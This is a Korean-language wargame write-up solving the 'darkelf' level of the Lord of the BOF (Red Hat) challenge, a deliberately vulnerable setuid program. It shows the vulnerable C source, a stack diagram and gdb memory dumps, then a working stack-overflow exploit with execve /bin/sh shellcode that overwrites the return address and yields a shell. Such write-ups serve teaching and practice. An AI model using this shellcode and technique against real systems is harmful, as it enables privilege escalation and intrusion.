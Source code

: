 ============================================================================================================
[redhat-lob] (6) darkelf
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> a;

        a [shape=box, label="dummy * 19 + shellcode + (argv[1] address+4*i)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="(argv[1] address+4*i)"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }


|

Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Buffer Overflow
============================================================================================================


Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./darkelf `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./darkelf `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/wolfman/darkelf2 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffad8       -1073743144

    (gdb) i reg $ebp
    ebp            0xbffffaf8       -1073743112

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffad8:     0xbffffaf8      0x400309cb      0x00000002      0xbffffb24
    0xbffffae8:     0xbffffb30      0x40013868      0x00000002      0x08048450
    0xbffffaf8:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb08:     0xbffffb24      0x08048390      0x0804864c      0x4000ae60
    0xbffffb18:     0xbffffb1c      0x40013e90      0x00000002      0xbffffc1a
    0xbffffb28:     0xbffffc31      0x00000000      0xbffffc62      0xbffffc84
    0xbffffb38:     0xbffffc8e      0xbffffc9c      0xbffffcbb      0xbffffccb
    0xbffffb48:     0xbffffce4      0xbffffd00      0xbffffd1f      0xbffffd2a
    0xbffffb58:     0xbffffd38      0xbffffd7a      0xbffffd8d      0xbffffda2
    0xbffffb68:     0xbffffdb2      0xbffffdbf      0xbffffddd      0xbffffde8
    0xbffffb78:     0xbffffdf9      0xbffffe0b      0xbffffe1a      0xbffffe22
    0xbffffb88:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb98:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffba8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbb8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbc8:     0x000001f9      0x0000000c      0x000001f9      0x0000000d
    0xbffffbd8:     0x000001f9      0x0000000e      0x000001f9      0x00000010
    0xbffffbe8:     0x0fabfbff      0x0000000f      0xbffffc15      0x00000000
    0xbffffbf8:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x38366900
    0xbffffc18:     0x682f0036      0x2f656d6f      0x666c6f77      0x2f6e616d
    0xbffffc28:     0x6b726164      0x32666c65      0x61616100      0x61616161
                                                          ^               ^
    0xbffffc38:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^ argv[1] = 0xbffffc41
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc58:     0x61616161      0x61616161      0x454c00bf      0x504f5353
    ==========================================================================

|

argv[1] pointers 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

오버플로우시 RET를 argv[1] 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.


.. code-block:: console

    $ ./darkelf `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x41\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀A▒▒▒

    bash$ whoami
    darkelf
    bash$ my-pass
    euid = 506
    kernel crashed

